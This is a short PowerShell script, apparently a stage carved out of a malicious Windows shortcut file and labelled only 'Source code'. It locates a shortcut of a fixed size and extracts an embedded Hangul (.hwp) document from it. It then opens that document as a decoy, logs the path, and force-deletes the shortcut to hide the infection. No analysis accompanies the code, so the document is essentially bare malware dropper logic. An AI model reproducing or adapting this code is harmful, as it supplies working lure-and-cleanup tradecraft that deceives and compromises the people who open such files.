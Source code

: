 $lk=ls -Path '.\' -filter '*.lnk';

for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$partpth = $lk[$a].directory;$lk=$lk[$a].name;break}}
$n=$lk.Replace('.lnk','.hwp');
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$partpth = $lk[$a].directory;$lk=$lk[$a].name;break}}
};

$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);

&"$partpth\$fsdf";
ac -path "C:\Users\user\Downloads\1.txt" "$partpth\\$fsdf";
ri "$partpth\$lk" -force;







